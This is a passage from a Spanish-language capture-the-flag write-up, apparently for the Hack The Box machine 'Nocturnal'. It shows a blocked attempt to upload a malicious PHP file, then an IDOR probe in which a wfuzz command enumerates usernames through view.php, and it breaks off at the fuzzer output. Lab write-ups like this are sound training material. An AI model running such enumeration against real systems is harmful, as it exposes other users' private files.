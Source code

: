![image-center](/assets/images/posts/nocturnal-web-analysis-2.png)
{: .align-center}


### (Posible) `.php` File Upload

Una vez iniciamos sesión, se nos redirige a `dashboard.php`, allí podremos subir archivos, en mi caso intentaré subir un archivo `.php` malicioso, pero la web nos indica el siguiente error

~~~ text
Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed. 
~~~

### `.pdf` File Upload

Al subir un archivo `.pdf` podemos visitarlo mediante la siguiente `url` donde se contemplan tanto el parámetro `username` para hacer referencia a un usuario y el parámetro `filename` donde se nombra el archivo

~~~ bash
http://nocturnal.htb/view.php?username=andrew&file=test.pdf
~~~


## Insecure Direct Object Reference (IDOR)

Podemos intentar hacer `fuzzing` mediante el parámetro `username` para descubrir nombres de usuario válidos

~~~ bash
wfuzz -c --hw 243 -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -b 'PHPSESSID=46d7mtkbhkovf744f2nrhqu6tk' 'http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf'

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
Total requests: 8295455

=====================================================================
ID           Response   Lines    Word       Chars       Payload
~~~